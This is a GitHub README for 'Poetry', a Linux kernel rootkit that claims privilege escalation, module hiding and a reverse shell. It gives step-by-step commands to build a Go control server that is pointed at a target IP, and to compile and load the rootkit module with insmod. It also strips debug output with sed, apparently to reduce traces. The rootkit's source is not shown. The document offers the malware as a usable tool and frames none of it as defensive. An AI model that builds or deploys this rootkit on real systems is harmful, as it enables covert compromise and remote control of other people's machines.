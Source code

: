 ![nil is goated](https://img.shields.io/badge/nil-goated-green)
# Poetry
This is a Linux kernel module rootkit made for >=5.13. It features privilege escalation, module hiding, and reverse shell capabilities. 

## Server Setup
### Building
#### If not on Linux:
Docker must be installed in order to compile the server binary. 
```sh
cd srv/
make # compile the go binary
ls out/ # compiled binary will be in the out/ directory
```
#### If on Linux:
You can utilize the method above if you have Docker installed, or you can use the method below if you have Golang installed. 
```sh
cd srv/

# compile the server binary
go build
```

The compiled binary will be called: `poetry`

### Running
Copy the compiled binary to the host system. Run the following commands to interact with the target:
```sh
export IFACE=<ethernet_interface> # set interface env var
sudo -E ./poetry -t <target_ip> # -E passes the env vars to sudo
```

## Kernel Module
### Tested On:
- 5.13.0
### Building
```sh
# install needed packages
apt update
apt install build-essential \
            checkinstall \
            linux-headers-$(uname -r) \
            -y 

cd lkm/

# comment out the printk debug statements
sed -i 's/printk/\/\/printk/g' *.c 

# compile the kernel module with the corresponding headers
make 
```
The compiled LKM will be: `poet.ko`
### Installing
```sh
# install the kernel module on the system
sudo insmod poet.ko 
```

## References
TODO add refs